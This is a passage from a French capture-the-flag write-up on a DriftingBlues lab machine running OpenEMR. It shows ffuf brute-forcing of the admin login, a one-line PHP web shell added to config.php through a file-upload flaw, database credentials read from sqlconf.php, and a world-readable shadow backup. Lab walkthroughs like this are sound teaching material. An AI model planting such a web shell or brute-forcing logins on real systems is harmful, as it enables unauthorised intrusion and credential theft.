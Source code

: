 ```plain
 :: Wordlist         : FUZZ: wordlist.txt 
 :: Header           : Content-Type: application/x-www-form-urlencoded 
 :: Data             : new_login_session_management=1&authProvider=Default&authUser=admin&clearPass=FUZZ&languageChoice=1 
 :: Follow redirects : false 
 :: Calibration      : false 
 :: Timeout          : 10 
 :: Threads          : 40 
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405 
 :: Filter           : Response size: 456 
________________________________________________ 

.:.yarrak.:.31          [Status: 302, Size: 0, Words: 1, Lines: 1] 
:: Progress: [1412/1412] :: Job [1/1] :: 107 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

Une fois connecté il est temps de comprendre rapidement le fonctionnement de [cet exploit correspondant à la version identifiée](https://www.exploit-db.com/exploits/49998). On est comme pour d'autres CTFs de la série en présence d'une faille d'upload sans restrictions sur le type de fichier.  

L'exploit envoie des données vers le path */interface/super/manage\_site\_files.php* et la section du site qui semble la plus proche est *Administration > Files*.  

J'avoue que l'interface n'est pas super compréhensible et j'ai préféré éditer le fichier existant *config.php* plutôt que de tenter d'ajouter un nouveau fichier.  

La ligne ajoutée n'a rien de particulier :  

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

Une fois connecté je note la présence d'un utilisateur nommé *clapton*.   

A part ça je trouve des identifiants dans pour la base de données dans le fichier */var/www/html/sites/default/sqlconf.php* :  

```php
<?php 
//  OpenEMR 
//  MySQL Config 

$host   = 'localhost'; 
$port   = '3306'; 
$login  = 'openemr'; 
$pass   = 'junno'; 
$dbase  = 'openemr';
```

Mais le plus frappant est la présence d'un fichier de sauvegarde du */etc/shadow* accessible en lecture :  

```plain
www-data@driftingblues:/var$ ls backups/ -al 
total 28 
drwxr-xr-x  2 root root  4096 Jan 21 07:53 . 
drwxr-xr-x 12 root root  4096 Apr 25  2021 .. 
-rw-r--r--  1 root root 13873 Apr 25  2021 apt.extended_states.0 
-rw-r--r--  1 root root   943 Apr 25  2021 shadow.backup
```
